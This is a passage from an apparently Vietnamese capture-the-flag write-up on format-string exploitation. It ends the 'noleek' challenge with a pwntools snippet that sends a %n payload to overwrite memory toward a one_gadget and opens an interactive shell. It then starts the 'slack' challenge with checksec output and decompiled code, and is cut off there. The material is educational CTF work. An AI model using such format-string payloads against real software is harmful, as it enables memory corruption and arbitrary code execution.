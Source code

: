 ```python
payload2 = f'%*16$c%{0xa5d37}c%42$n'.encode()
log.info(f'one_gadget: {hex(0xc9620)}')
input()
p.sendlineafter(b'more leek? ',payload2)
p.interactive()
```

- enjoy flag ^^

![here](/assets/images/flagfsb.png)

- ở đây ta cần chú ý 1 vài điều , ```libc_start_main_ret``` cũng có thể in ra tuy nhiên vì ta cùng lúc ghi và lúc đọc nên có thể xảy ra lỗi , ta có thể sử dụng %n hoặc lớn hơn vì nó ghi vào ```/dev/null```
- cuối cùng là 1 lưu ý khi sử dụng "*" , nó sẽ trỏ đến có kiểu là ```int``` , vì vậy nếu đó là số âm thì nó sẽ bị sai , nếu sai thì ta cần thử lại chày cối nhiều lần là được

ref [here](https://github.com/johnathanhuutri/CTFWriteup/tree/master/2023/angstromCTF/noleek)


## slack


### overview

checksec: 

```cs
ploi@PhuocLoiiiii:~/pwn/FSB/slack$ checksec slack
[*] '/home/ploi/pwn/FSB/slack/slack'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
- ta sẽ bỏ qua những hàm không quan trọng ở bài này và vào vấn đề chính , ta sẽ có 1 loop với 3 lần input và 3 lần ```fsb```

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int v3; // eax
  int v4; // eax
  int i; // [rsp+8h] [rbp-68h]
  __gid_t rgid; // [rsp+Ch] [rbp-64h]
  time_t timer; // [rsp+10h] [rbp-60h] BYREF
  struct tm *tp; // [rsp+18h] [rbp-58h]
  char s[32]; // [rsp+20h] [rbp-50h] BYREF
  char format[40]; // [rsp+40h] [rbp-30h] BYREF
  unsigned __int64 v13; // [rsp+68h] [rbp-8h]

  v13 = __readfsqword(0x28u);
  setbuf(_bss_start, 0LL);
  setbuf(stdin, 0LL);
  rgid = getegid();
  setresgid(rgid, rgid, rgid);
```